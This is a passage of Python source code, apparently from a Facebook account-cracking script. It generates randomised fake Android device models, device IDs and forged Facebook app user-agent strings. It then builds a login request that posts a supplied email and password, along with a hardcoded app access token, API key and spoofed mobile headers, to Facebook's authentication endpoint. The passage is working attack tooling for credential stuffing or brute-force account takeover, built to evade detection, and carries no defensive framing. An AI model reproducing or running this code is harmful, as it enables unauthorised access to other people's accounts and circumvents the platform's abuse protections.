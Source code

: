                         mmmmm = random.choice(['Optimus Vu', 'OT-7025D', 'P10 Lite LTE', 'P2', 'P20 Lite', 'P30 Pro (Global)', 'P3400', 'P55 Max', 'P7 Max', 'P8 Lite', 'P9 Lite', 'Pacific 800i', 'Pearl 8100', 'Phoenix 2', 'Phone', 'Pixel', 'Pixel 3', 'Pixel XL', 'Pixi', 'Prada 3.0', 'Pre3', 'Primo GH7', 'Quad EVO Energy 5', 'Quantum 4', 'Radar 4G', 'Radar C110e', 'Realme 2', 'Red Rice', 'Redmi 2', 'Redmi 3', 'Redmi 4', 'Redmi 5', 'Redmi 5 Plus', 'Redmi 5A', 'Redmi 6', 'Redmi Note 3', 'Redmi Note 4', 'Redmi Note 5', 'Redmi S2', 'Redmi Y1', 'Redmi Y2', 'Rex 60', 'Rex 80', 'Rhyme', 'RM-560', 'Ruby', 'S4502M', 'S4505M', 'S4702M', 'S580', 'S616', 'S660', 'Sensation', 'SGH-E250', 'SGH-I547', 'SM-G485F', 'Spark', 'Star 3 Duos', 'Storm 9530', 'Stream', 'Stylo 2 Plus (T-Mobile)', 'Stylus 2', 'TM-4377', 'Torch 4G 9810'])
                        mmmm = random.choice(['Optimus Vu', 'OT-7025D', 'P10 Lite LTE', 'P2', 'P20 Lite', 'P30 Pro (Global)', 'P3400', 'P55 Max', 'P7 Max', 'P8 Lite', 'P9 Lite', 'Pacific 800i', 'Pearl 8100', 'Phoenix 2', 'Phone', 'Pixel', 'Pixel 3', 'Pixel XL', 'Pixi', 'Prada 3.0', 'Pre3', 'Primo GH7', 'Quad EVO Energy 5', 'Quantum 4', 'Radar 4G', 'Radar C110e', 'Realme 2', 'Red Rice', 'Redmi 2', 'Redmi 3', 'Redmi 4', 'Redmi 5', 'Redmi 5 Plus', 'Redmi 5A', 'Redmi 6', 'Redmi Note 3', 'Redmi Note 4', 'Redmi Note 5', 'Redmi S2', 'Redmi Y1', 'Redmi Y2', 'Rex 60', 'Rex 80', 'Rhyme', 'RM-560', 'Ruby', 'S4502M', 'S4505M', 'S4702M', 'S580', 'S616', 'S660', 'Sensation', 'SGH-E250', 'SGH-I547', 'SM-G485F', 'Spark', 'Star 3 Duos', 'Storm 9530', 'Stream', 'Stylo 2 Plus (T-Mobile)', 'Stylus 2', 'TM-4377', 'Torch 4G 9810'])
                        cph = random.choice(['CPH1979','CPH1983','CPH1987','CPH2005','CPH2009','CPH2015','CPH2059','CPH2061','CPH2065','CPH2069','CPH2071','CPH2073','CPH2077','CPH2091','CPH2095','CPH2099','CPH2137','CPH2139','CPH2145','CPH2161','CPH2185','CPH2201','CPH2209','CPH1801','CPH1803','CPH1805','CPH1809','CPH1827','CPH1837','CPH1851','CPH1853'])
                        network = random.choice(['Zong','null','Marshmallow','Telekom China'])
                        ua  = "[FBAN/FB4A;FBAV/"+str(random.randint(11,77))+'.0.0.'+str(random.randrange(9,49))+str(random.randint(11,318)) +";FBBV/"+str(random.randint(11111111,77777777))+";[FB4A/;FBAV/4Q095MQG;FBBV/108661539;FBAN/FB4A;FBAV/4Q095MQG;FBBV/108661539;FBDM//*{density=2.5,width=1080,height=1280};FBLC/zh_CN;FBRV/738767100;FBCR/LG;FBMF/Motorola;FBBD/Amazon;FBPN/com.facebook.katana;FBDV/Oppo_F19;FBSV/15;FBOP/4;FBCA/arm64-v8a;FBSS/;]"+"[FB4A/;FBAV/A1XDL5U4;FBBV/999391731;FBAN/FB4A;FBAV/A1XDL5U4;FBBV/999391731;FBDM//*{density=2.0,width=720,height=3840};FBLC/zh_CN;FBRV/282348360;FBCR/OPPO;FBMF/Motorola;FBBD/HMD_Global;FBPN/com.facebook.katana;FBDV/Motorola_Moto_G700;FBSV/15;FBOP/7;FBCA/x86_64;FBSS/;]"+"[FBAN/;FBAV/YZWSES93;FBBV/910131153;FBAN/FBAN;FBAV/YZWSES93;FBBV/910131153;FBDM//*{density=3.0,width=720,height=2560};FBLC/en_US;FBRV/265090464;FBCR/TECNO;FBMF/VIVO;FBBD/Sony;FBPN/com.facebook.katana;FBDV/Sony_Xperia_5G;FBSV/17;FBOP/7;FBCA/x86;FBSS/;]"+"[FB4A/;FBAV/A1XDL5U4;FBBV/348757172;FBAN/FB4A;FBAV/A1XDL5U4;FBBV/348757172;FBDM//*{density=2.5,width=2560,height=3840};FBLC/it_IT;FBRV/867142419;FBCR/Realme;FBMF/Motorola;FBBD/Blu;FBPN/com.facebook.katana;FBDV/Nokia_X150;FBSV/17;FBOP/5;FBCA/x86_64;FBSS/18;]"+"[FBAN/;FBAV/;FBBV/360257259;FBAN/FBAN;FBAV/;FBBV/360257259;FBDM//*{density=3.0,width=1440,height=3840};FBLC/de_DE;FBRV/191198785;FBCR/LG;FBMF/OnePlus;FBBD/Oppo;FBPN/com.facebook.katana;FBDV/Pixel_6;FBSV/12;FBOP/4;FBCA/x86_64;FBSS/;]"
                        random_seed = random.Random()
                        adid = str(''.join(random_seed.choices(string.hexdigits, k=16)))
                        device_id = str(uuid.uuid4())
                        secure = str(uuid.uuid4())
                        family = str(uuid.uuid4())
                        accessToken = '350685531728|62f8ce9f74b12f84c123cc23437a4a32'
                        xd =str(''.join(random_seed.choices(string.digits, k=20)))
                        sim_serials = f'["{xd}"]'
                        li = ['28','29','210']
                        li2 = random.choice(li)
                        j1 = ''.join(random.choice(digits) for _ in range(2))
                        jazoest = li2+j1
                        data={"adid": str(uuid.uuid4()),"format": "json","device_id": str(uuid.uuid4()),"cpl": "true","family_device_id": str(uuid.uuid4()),"credentials_type": "device_based_login_password","error_detail_type": "button_with_disabled","source": "device_based_login","email":ids,"password":pas,"access_token":"350685531728|62f8ce9f74b12f84c123cc23437a4a32","generate_session_cookies":"1","meta_inf_fbmeta": "","advertiser_id": str(uuid.uuid4()),"currently_logged_in_userid": "0","locale": "en_US","client_country_code": "US","method": "auth.login","fb_api_req_friendly_name": "authenticate","fb_api_caller_class": "com.facebook.account.login.protocol.Fb4aAuthHandler","api_key": "882a8490361da98702bf97a021ddc14d"}
                        headers = {"Content-Type": "application/x-www-form-urlencoded","Host": "graph.facebook.com","User-Agent": ua,"X-FB-Net-HNI": "45204","X-FB-SIM-HNI": "45201","X-FB-Connection-Type": "MOBILE.LTE","X-Tigon-Is-Retry": "False","x-fb-session-id": "nid=jiZ+yNNBgbwC;pid=Main;tid=132;nc=1;fc=0;bc=0;cid=d29d67d37eca387482a8a5b740f84f62","x-fb-device-group": "5120","X-FB-Friendly-Name": "ViewerReactionsMutation","X-FB-Request-Analytics-Tags": "graphservice","Accept-Encoding": "gzip, deflate","X-FB-HTTP-Engine": "Liger","X-FB-Client-IP": "True","X-FB-Server-Cluster": "True","x-fb-connection-token": "d29d67d37eca387482a8a5b740f84f62","Connection": "Keep-Alive"}
                        url = 'https://b-graph.facebook.com/auth/login'